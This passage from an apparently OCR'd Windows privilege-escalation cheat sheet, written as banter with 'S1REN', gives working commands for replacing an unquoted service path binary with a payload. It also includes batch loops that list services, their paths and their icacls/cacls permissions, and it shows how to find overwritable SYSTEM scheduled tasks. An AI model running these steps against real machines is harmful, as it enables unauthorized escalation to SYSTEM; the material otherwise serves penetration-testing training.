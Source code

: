 _**-->**_ _Exploit it._  
_**-->**_ _If the path of the Binary file is:_  
C:\Program Files\something\something.exe  
_**-->**_ _Then,_  
move something.exe something.exe.BACK  
move sirenMaint.exe C:\Program Files\something\  
move sirenMaint.exe something.exe  
  
_**-->**_ Well, wasn't that fun? Now our payload will get executed instead of the intended exe!  
_**-->**_ _Nice._  
  
**#S1REN, is there a better way to enumerate out every service and then just check for which of them has an Unquoted Bin Paths?  
**_**-->** Yup._  
**-->** _Thanks S1REN!_  
cd "C:\Windows\TEMP"  
sc query state= all | findstr "SERVICE_NAME:" >> ServiceNames.txt  
FOR /F %i in (ServiceNames.txt) DO echo %i  
type ServiceNames.txt  
FOR /F "tokens=2 delims= " %i in (ServiceNames.txt) DO @echo %i >> Services.txt  
FOR /F %i in (Services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt  
type path.txt  
  
_Nice._  
  
**#Continued**  
**-->** S1REN.  
**-->** Yes?  
**-->** Is there a way to do essentially the same thing and then recursively execute icacls.exe or cacls.exe on them to get the information I need?  
**-->** Yup.  
cd "C:\Windows\TEMP\"  
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> C:\windows\temp\permissions.txt  
  
**icacls.exe:**  
for /f eol^=^"^ delims^=^" %a in (C:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"  
  
**cacls.exe**  
for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c cacls "%a"  
  
IF YOU FIND A SERVICE THAT HAS WRITE PERMISSIONS set to "EVERYONE", you can change  
that binary INTO YOUR OWN CUSTOM BINARY and make it execute in the privileged context.  

+ **Dealing with Scheduled Tasks with SYSTEM Privileges.**  
**-->** Here we are looking for tasks that are run by a privileged user, and run a binary  
that we can overwrite.  
schtasks /query /fo LIST /v > schtask.txt  
type schtask.txt  
(Copy that output to a temporary file

**-->** Yeah I know this ain't pretty, but it works. You can of course change the name  
SYSTEM to another privileged user. In other words, copy the output into Kali and  
just grep for SYSTEM.  
**-->** Nice, S1REN.  
**-->** Thanks.  
cat schtask.txt | grep "SYSTEM|Task To Run" | grep -B 1 SYSTEM --color=auto  
  